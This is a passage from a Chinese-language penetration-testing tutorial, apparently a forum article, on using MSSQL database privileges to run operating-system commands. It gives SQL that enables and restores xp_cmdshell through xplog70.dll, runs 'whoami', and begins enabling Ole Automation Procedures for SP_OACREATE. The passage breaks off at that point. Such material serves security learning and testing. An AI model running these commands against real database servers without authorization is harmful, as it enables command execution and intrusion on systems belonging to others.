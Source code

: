 2.4 利用 MSSQL 的权限执行系统命令
----------------------

### 2.4.1 场景一：利用 xp\_cmdshell 执行系统命令

xp\_cmdshell 是 Sql Server 中的一个组件，我们可以用它来执行系统命令。利用前提是数据库服务未被降权，可以执行任意存储过程，在利用之前需要先判断 xp\_cmdshell 的状态，是否已经开启，默认是关闭的，命令如下：

```php
1. select \* from master.dbo.sysobjects where xtype='x' and name='xp\_cmdshell';  
```

如图（已开启）：

![4.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-924f9c1113f0105176ad685c0d0b7bf568cdd1b2.png)

如果未开启的话，需要执行下面的命令进行开启：

```php
1. EXEC sp\_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp\_cmdshell', 1;RECONFIGURE;  
```

开启之后就可以执行任意的系统命令，比如：

```php
1. exec master..xp\_cmdshell 'whoami'  
```

可以看到当前用户权限是 system 权限，也有可能是 network service 权限，这个是跟安装过程中，设置启动服务的用户权限相关，建议使用 network service 权限，毕竟如果是 system 权限，那么对于攻击者而言都省下提权的操作了，如图：

![5.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-c35e63d8fff26cd68c2c9700e0ef500fa938e1f0.png)

接下来就可以执行任意系统命令，本专题的目标已经达成。题外话，实际的目标中管理员可能删除这个扩展，当然，我们也可以通过 xplog70.dll 来进行恢复，命令如下：

```php
1. Exec master.dbo.sp\_addextendedproc 'xp\_cmdshell','C:\\\\Program Files (x86)\\\\Microsoft SQL Server\\\\MSSQL.1\\\\MSSQL\\\\Binn\\\\xplog70.dll';  
```

xplog70.dll 通常在 MSSQL 的安装目录下，找到实际安装位置，替换之后，执行上面的命令即可。

**2.4.2** **场景二：利用 com 组件 SP\_OACREATE 来执行命令**

利用 SP\_OACREATE 之前，需要先确认该组件是否启用，查询命令：

```php
select \* from master.dbo.sysobjects where xtype='x' and name='SP\_OACREATE';
```

![6.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-64f335e4fb925de4d2600ad57ef0da0321b6ce35.png)

能搜索出结果，说明组件已开启，如果没有开启的情况下，可以使用下面的命令进行启用：

```php
1. EXEC sp\_configure 'show advanced options', 1; RECONFIGURE WITH OVERRIDE; EXEC sp\_configure 'Ole Automation Procedures', 1; RECONFIGURE WITH OVERRIDE;  
```
